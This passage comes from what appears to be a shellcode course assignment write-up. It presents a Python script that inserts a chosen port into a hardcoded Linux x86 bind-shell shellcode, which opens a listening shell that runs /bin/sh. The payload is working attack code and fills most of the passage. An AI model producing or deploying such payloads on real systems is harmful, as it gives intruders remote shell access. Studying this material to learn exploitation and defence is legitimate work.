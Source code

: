 
## The configurator

Last bits. Our shellcode implements a bind shell code on port 4444 (\xc9\x51 in
hexadecimal and network byte order), which is hardcoded.

The assignment asked the target port to be easily configurable, that's why I
created a python script to do this.

{% highlight python %}
#!/usr/bin/env python

import sys, socket;

if (len(sys.argv) == 1):
    port = 4444
else:
    port = int(sys.argv[1])

if port < 1024 or port > 65535:
    print "[!] invalid TCP port number: " + str(port)
    sys.exit(-1)

no_port = socket.htons(port);
hex_no_port = hex(no_port)

h1 = hex_no_port[2:4]
h2 = hex_no_port[4:6]

if h1 == "":
    h1 = "00"

if len(h1) == 1:
    h1 = "0" + h1

if h2 == "":
    h2 = "00"

if len(h2) == 1:
    h2 = "0" + h2

hex_port_number = "\\x%s\\x%s" % (h2, h1)

light_shellcode="\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68" + hex_port_number + "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80";

print light_shellcode

{% endhighlight %}

Using this python script is very easy. Just pass the required port number as
the parameter and it will give the resulting shellcode for us. The script
checks for port number to be in between 1024 and 65535 and it deals with
network byte order and hexadecimal encoding.
